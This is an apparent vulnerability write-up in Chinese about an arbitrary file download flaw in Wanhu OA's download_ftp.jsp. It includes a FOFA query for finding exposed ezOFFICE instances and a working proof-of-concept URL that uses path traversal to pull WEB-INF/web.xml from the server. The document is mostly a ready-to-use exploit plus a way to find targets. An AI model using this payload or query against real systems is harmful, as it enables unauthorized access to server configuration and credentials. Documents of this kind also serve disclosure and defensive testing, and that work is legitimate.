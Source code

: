 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## FOFA

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66.png)

验证POC

```javascript
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![img](../../../.vuepress/public/img/1646135727614-308c38fd-932b-4dc1-a43d-aa5ddfe6898a.png)